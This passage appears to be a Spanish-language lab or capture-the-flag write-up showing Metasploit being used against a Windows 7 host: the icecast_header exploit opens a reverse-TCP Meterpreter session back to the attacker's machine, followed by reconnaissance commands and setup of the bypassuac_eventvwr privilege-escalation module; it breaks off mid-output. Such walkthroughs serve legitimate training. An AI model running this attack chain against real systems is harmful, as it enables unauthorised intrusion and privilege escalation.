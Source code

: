 Ahora para poder ejecutar el exploit debemos invocar el comando `run`

```bash
msf6 exploit(windows/http/icecast_header) > run
[*] Started reverse TCP handler on 10.8.17.92:9000 
[*] Sending stage (177734 bytes) to 10.10.19.146
[*] Meterpreter session 1 opened (10.8.17.92:9000 -> 10.10.19.146:49233) at 2025-01-29 17:38:24 +0100

meterpreter > getuid
Server username: Dark-PC\Dark
```
## Información sobre el servidor

Una vez dentro podemos usar ciertos comandos implementados en meterpreter para obtener información o navegar por el sistema, por ejemplo:

```bash
meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
A parte de comandos de varios que ofrece, metasploit implementa herramientas para intentar analizar posibles vulnerabilidades dentro del sistema para poder escalar privilegios.

```bash
meterpreter > run post/multi/recon/local_exploit_suggester
```
En este caso vamos a utilizar el siguiente exploit.

```bash
2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
```

Ahora para poder hacer uso de este exploit mandaremos a segundo plano la sesión de meterpreter (`CTRL+Z`) y ejecutaremos el exploit.

## Escalando privilegios

Ahora desde msfconsole podemos ejecutar el exploit con el comando `use exploit/windows/local/bypassuac_eventvwr`

```bash
meterpreter > 
Background session 1? [y/N]  
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
```
